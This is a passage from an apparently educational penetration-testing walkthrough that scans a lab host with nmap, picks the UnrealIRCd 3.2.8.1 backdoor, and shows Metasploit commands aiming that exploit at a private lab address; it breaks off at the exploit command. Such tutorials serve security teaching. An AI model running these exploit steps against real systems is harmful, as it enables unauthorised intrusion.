 TRACEROUTE
HOP RTT     ADDRESS
1   0.75 ms 192.168.194.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.19 seconds
{{< / highlight >}}

So yeah. There's a lot to hack there. If you want to take it a step further, you can use the `--script` arg and supply a script. There's a lot of good ones that you get for free with nmap in Kali by default, but also of note:[https://github.com/vulnersCom/nmap-vulners](https://github.com/vulnersCom/nmap-vulners)

[https://github.com/scipag/vulscan](https://github.com/scipag/vulscan)

Both can be used to map a scan with version info directly to CVEs or exploitdb. It's a really good way to know easily what exploits are applicable to a target.

## Selecting a Target

In the sea of output above, let's focus on the IRC daemon we found. It's Unreal IRC 3.2.8.1. A quick search for the program and version pulls up an easy exploit:[https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor)

Most hosts won't have this many vulnerabilities, but given this is a test box specifically for this purpose, we can kindof blindly pick something and turn up a bulls eye. In a more realistic scenario, you'll have fewer choices and you'll need to decide based on what's available, your skill level, and available tools.

## Exploit the Target

Now that we picked a target service on our target machine, let's start trying to get access. Since we found a vulnerability with an exploit available in metasploit, let's fire up the console and use it.

{{< highlight markdown >}}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 192.168.194.136
rhost => 192.168.194.136
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
